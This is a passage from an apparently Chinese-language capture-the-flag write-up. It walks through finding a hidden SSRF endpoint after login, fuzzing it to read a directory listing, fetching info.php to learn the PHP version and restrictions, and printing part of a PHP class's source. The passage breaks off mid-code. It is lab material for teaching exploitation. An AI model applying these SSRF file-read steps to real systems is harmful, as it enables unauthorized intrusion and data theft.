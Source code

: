 登录完成之后会返回一个隐蔽的用户接口

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 59
ETag: W/"3b-gWMHzK5svjksGogMofwDWWe4h5o"
Date: Wed, 19 May 2021 15:56:15 GMT
Connection: close

admin!
you can goto sEcRet_sSrF_h0den_aPi endpoint to hack!
```

初次访问这个端口会提示缺少`s`参数，我们猜测此处需要补充参数并且添加对应的内容

首先随便访问一个本地 `IP:PORT/File ` 会发现如下报错，因为这个 http前面还加了反斜杠，所以就猜测此接口已经设定了对应的 `IP:PORT`，那么我们能够控制的只有 `File` 位置，所以就利用 SSRF 字典来Fuzz常见的文件。

![截屏2021-05-20 上午9.12.31](README.assets/截屏2021-05-20 上午9.12.31.png)

经过Fuzz之后可以找到 `.listing` 文件，该文件中就包含了当前目录下面的各个文件名

```
total 32
drwxrwxrwx 1 root root    4096 May 20 01:44 .
-rw-r--r-- 1 root root       0 May 20 01:44 .listing
-rw-r--r-- 1  502 dialout  329 May 20 01:37 shellme.php
drwxr-xr-x 1 root root    4096 May 20 01:28 ..
-rw-r--r-- 1 root root    1410 May 19 14:20 y0u_w1ll_s3e_Me.php
-rw-r--r-- 1 root root    1038 May 19 09:15 y0u_w1ll_s3e_Me.txt
-rw-r--r-- 1 root root      18 May 18 14:20 info.php
```

首先我们可以访问 info.php来获取对应的php版本等相关信息

```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=info.php
```

![截屏2021-05-20 上午10.28.04](README.assets/截屏2021-05-20 上午10.28.04.png)

可以看到是php7.0.9版本，并且限制限制了众多执行命令的函数

![截屏2021-05-20 上午10.28.52](README.assets/截屏2021-05-20 上午10.28.52.png)

open_basedir 也被限制在 `/var/www/`



之后我们可以访问 ` y0u_w1ll_s3e_Me.txt` 文件来读取对应的源代码

```php
<?php
error_reporting(0);
// highlight_file(__FILE__);

class Verify
{
    public $classname;
    public $param;
    public $checkMethod;
    public function __construct()
    {
        $this->classname = "SayHi";
        $this->param = array("C", "T", "F", "E", "R");
        $tmp = new $this->classname($this->param);
    }

```